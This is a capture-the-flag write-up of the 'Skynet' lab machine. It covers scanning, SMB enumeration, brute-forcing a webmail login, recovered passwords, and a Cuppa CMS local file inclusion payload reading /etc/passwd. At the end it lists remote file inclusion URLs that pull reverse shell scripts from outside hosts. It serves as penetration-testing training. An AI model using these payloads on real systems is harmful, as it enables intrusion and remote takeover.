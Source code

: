 ### Skynet

export IP=10.10.68.81

#### Deploy and compromise the vulnerable machine!

What is Miles password for his emails?
- cyborg007haloterminator


nmap scan:

![](../../img/Pasted%20image%2020220827201706.png)

Gobuster scan:

![](../../img/Pasted%20image%2020220827203111.png)

Looking at the pages on the browser, almost all pages return nothing, except the /squirrelmail, where we need to login our credentials:


![](../../img/Pasted%20image%2020220827203156.png)

Looking for other vectors of attack, we observed the smb port is open. We will try to enumerate the port using smbmap:

![](../../img/Pasted%20image%2020220827203243.png)

There are 2 directories of interest, the anonymous and the milesdyson share. We will open both directories and get all information we can get:

Anonymous is easy to open since it does not use credentials:

![](../../img/Pasted%20image%2020220827203357.png)

Opening up attention.txt file (after we get all files from the share)

![](../../img/Pasted%20image%2020220827203429.png)

Opening up log1.txt:

![](../../img/Pasted%20image%2020220827203447.png)

Other logs provide no details.

Since we have a possible wordlist of passwords to be used on user milesdyson, we can either use hydra or burpsuite to bruteforce login and provide us the correct password. I use hydra for this challenge:

![](../../img/Pasted%20image%2020220827203818.png)

After logging in the credentials on the /squirrelmail page, we are now inside miles's inbox:

![](../../img/Pasted%20image%2020220827204045.png)

We can check for email called 'Samba Password reset'

![](../../img/Pasted%20image%2020220827204115.png)

Message:

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

Using these credentials, we can now login to miles' smb share:

![](../../img/Pasted%20image%2020220827204226.png)

We have noticed the /notes folder:

![](../../img/Pasted%20image%2020220827204438.png)

looking inside notes directory, all files have .md pdf files except important.txt:

![](../../img/Pasted%20image%2020220827204520.png)

These are the details of important.txt:

![](../../img/Pasted%20image%2020220827204601.png)


What is the hidden directory?
- /45kra24zxs28v3yd

We visit the page and we are greeted by a picture:

![](../../img/Pasted%20image%2020220827204644.png)

We perform enumeration on the secret page and the results are as follows:

![](../../img/Pasted%20image%2020220827220920.png)

We visit the page /administrator but it seems that we need credentials again:

![](../../img/Pasted%20image%2020220827220954.png)

After this, we tried to use searchsploit for any vulnerabilities:

![](../../img/Pasted%20image%2020220827221033.png)

After searching, we can see that there is a vulnerability that uses local file inclusion for obtaining RCE, thus we tried to perform the LFI first:

![](../../img/Pasted%20image%2020220827221146.png)

For the LFI, we will use this syntax first to check if it really is working:

`http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

Modifying into this:

`http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

Reveals into this:

![](../../img/Pasted%20image%2020220827221323.png)

At this point, we can safely assume that RFI (remote file inclusion) is also possible, and i got stuck in this point.



http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.48.47:8080/reverse_shell.php?


http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.109.169/rshell.php

http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.48.47/php-reverse-shell.php?